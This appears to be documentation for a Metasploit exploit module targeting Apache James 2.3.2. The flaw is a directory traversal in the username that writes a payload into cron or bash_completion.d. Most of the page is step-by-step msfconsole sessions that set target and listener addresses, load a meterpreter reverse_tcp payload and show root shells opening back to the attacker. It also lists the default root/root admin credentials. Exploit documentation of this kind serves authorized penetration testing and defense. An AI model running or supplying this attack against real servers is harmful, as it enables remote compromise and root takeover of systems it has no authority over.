 ## Vulnerable Application
  This module exploits a vulnerability that exists due to a lack of input validation when creating a user in Apache James 2.3.2.
  By creating a user with a directory traversal payload as the username, commands can be written to a given directory/file.
  Instructions for installing the vulnerable application for testing can be found here:
  https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf

## Verification Steps
  __1.__ Start msfconsole

  __2.__ DO: Load module exploit/linux/smtp/apache_james_exec

  __3.__ DO: Set the remote and local options: rhosts, lhosts, lport

  __4.__ DO: Set the preferred payload

  __5.__ DO: Run the check method to determine vulnerability

  __6.__ DO: Run the exploit

  __7.__ The payload will connect to the listener if the exploit is successful

## Options
  **USERNAME:**  The administrator username for Apache James 2.3.2 remote administration tool. By default this is 'root'.
  **PASSWORD:**  The administrator password for Apache James 2.3.2 remote administration tool. By default this is 'root'.
  **ADMINPORT:**  The port for Apache James 2.3.2 remote administration tool. By default this is '4555'.
  **RHOSTS:**  The IP address of the vulnerable server.
  **RPORT:**  The port number of the SMTP service.
  **POP3PORT** The port for the POP3 Apache James Service.  By default this '110'.

## Scenarios
  **If using Cron exploitation method:** This method allows for automatic execution of the payload with no user interaction
  required and gives the attacker root privileges. It will also attempt to automatically cleanup the malicious user and the
  mail objects.

  __1.__ Load the module:
```
  msf5 > use exploit/linux/smtp/apache_james_exec
```

  __2.__ Set remote and local options:
```
  msf5 exploit(linux/smtp/apache_james_exec) > set target 1
  target => 1
  msf5 exploit(linux/smtp/apache_james_exec) > set rhosts  192.168.224.169
  rhosts =>  192.168.224.169

  msf5 exploit(linux/smtp/apache_james_exec) > set lhost 192.168.224.167
  lhost => 192.168.224.167
  msf5 exploit(linux/smtp/apache_james_exec) > set lport 4444
  lport => 4444
```

  __3.__ Set payload:
```
  msf5 exploit(linux/smtp/apache_james_exec) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
```

  __4.__ Check version and run exploit:
```
  msf5 exploit(linux/smtp/apache_james_exec) > check
  [*] 192.168.224.164:25 - The target appears to be vulnerable.
  msf5 exploit(linux/smtp/apache_james_exec) > exploit
  
  [*] Started reverse TCP handler on 192.168.224.167:4444
  [+] 192.168.224.169:25 - Waiting 60 seconds for cron to execute payload
  [*] Sending stage (3021284 bytes) to 192.168.224.169
  [*] Meterpreter session 1 opened (192.168.224.167:4444 -> 192.168.224.169:38694) at 2020-02-02 16:30:02 -0800
  [*] 192.168.224.169:25 - Command Stager progress - 100.00% done (812/812 bytes)

  meterpreter >
```

  ---------------------------------------------------------------------------------------------
  **If using Bash Completion:** This method may be preferable if targeting a linux operating system such as some versions of Ubuntu that
  fails to run the cron method for exploitation. This exploitation method will leave an Apache James mail object artifact in the
  /etc/bash_completion.d directory and the malicious user account.

  __1.__ Load the module:
```
  msf5 > use exploit/linux/smtp/apache_james_exec
```

  __2.__ Set remote and local options:
```
  msf5 exploit(linux/smtp/apache_james_exec) > set target 0
  target => 0
  msf5 exploit(linux/smtp/apache_james_exec) > set rhosts 192.168.224.164
  rhosts => 192.168.224.164

  msf5 exploit(linux/smtp/apache_james_exec) > set lhost 192.168.224.167
  lhost => 192.168.224.167
  msf5 exploit(linux/smtp/apache_james_exec) > set lport 4444
  lport => 4444
```

  __3.__ Set payload:
```
  msf5 exploit(linux/smtp/apache_james_exec) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
```

  __4.__ Check version and run exploit:
```
  msf5 exploit(linux/smtp/apache_james_exec) > check
  [*] 192.168.224.164:25 - The target appears to be vulnerable.
  msf5 exploit(linux/smtp/apache_james_exec) > exploit

  [*] 192.168.224.164:25 - Command Stager progress - 100.00% done (812/812 bytes)
```

  __5.__ Set up and run listener (Can be done before running exploit):
```
  msf5 exploit(linux/smtp/apache_james_exec) > use exploit/multi/handler
  msf5 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
  msf5 exploit(multi/handler) > set lport 4444
  lport => 4444
  msf5 exploit(multi/handler) > set lhost 192.168.224.167
  lhost => 192.168.224.167

  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.224.167:4444
  [*] Sending stage (3021284 bytes) to 192.168.224.164
  [*] Meterpreter session 1 opened (192.168.224.167:4444 -> 192.168.224.164:34752) at 2020-01-18 18:25:14 -0800

  meterpreter >
```

## Targets
```
  Id  Name 
  --  ----
  0   Bash Completion
  1   Cron
```

## References
  1. <https://www.exploit-db.com/exploits/35513>
  2. <https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf>
